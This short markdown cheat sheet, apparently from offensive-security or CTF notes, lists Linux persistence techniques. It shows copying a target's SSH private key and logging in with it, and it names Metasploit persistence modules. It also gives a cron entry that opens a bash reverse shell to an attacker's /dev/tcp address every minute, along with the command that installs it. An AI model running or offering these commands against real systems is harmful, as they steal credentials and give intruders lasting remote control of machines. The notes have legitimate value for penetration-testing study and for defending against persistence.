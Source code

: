 
SSH Keys
=

id_rsa is private key
id_rsa.pub is public key

### Private Key

1. `scp remote_username@ip:/Directory/of/file ./local/directory` - copy private key to local machine from target
2. `ssh -i id_rsa user@ip`

### msfconsole

search platform:linux persistence - use ssh key persistence module


Cron Jobs
=

### msfconsole

search platform:linux persistence - use cron service persistence module

### manual

1. cat /etc/cron*

create one:

1. `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1' " > cron` -  create cronjob to run
2. `crontab -i cron` - add cron to crontab

